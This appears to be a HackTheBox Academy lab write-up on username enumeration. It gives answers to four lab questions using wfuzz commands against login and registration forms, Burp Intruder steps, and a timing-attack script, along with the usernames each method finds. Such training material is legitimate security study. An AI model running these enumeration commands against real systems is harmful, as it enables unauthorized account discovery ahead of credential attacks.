 **Questions**

Find the valid username on the web app based at the /question1/ subdirectory. PLEASE NOTE: Use the same wordlist for all four questions.

```bash
#use wfuzz to enumerate username (below use GET request for some reason)
wfuzz -c -w /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt --hs "Invalid username." -u http://83.136.252.32:33051/question1/?Username=FUZZ&Password=doger 
#000000013:   200        62 L     141 W      2114 Ch     "puppet"                                                                                     
```

Find the valid username for the web application based at subdirectory /question2/.

```bash
#https://readmedium.com/hackthebox-broken-authentication-brute-force-usernames-e6278526f042
#1. Randomly input values for username and password (a:b). We get a generic error message “Invalid credentials”.
#2. Inspecting the HTML elements, we see there’re hidden input elements on the login forms that tracks failed login attempts.
#3. Capture the request in Burp Suite and send it to Intruder to brute force usernames.
#4. Use Seclist Top Usernames
#5. Go to the Options tab, scroll down to Grep — Extract section, click Add
#6. In the Response body, scroll down to the element <input type=”hidden” name=”wronguser” element and select it.
#7. OK Start the Attack
ansible
```

Find the valid account name for the web application based at subdirectory /question3/.

```bash
#https://academy.hackthebox.com/storage/modules/80/scripts/timing_py.txt
python3 timing.py /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt
vagrant
```

Now find another way to discover the valid username for the web application based at subdirectory /question4/

```bash
#go to register account and capture the request
wfuzz -c -z file,/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -d "userid=FUZZ&email=root%40test.com&passwd1=pass&passwd2=pass&submit=submit" --hs "Thanks for registering" http://94.237.62.149:58523/question4/register.php 
#000000008:   200        57 L     157 W      2151 Ch     "user"                                                                                     
```
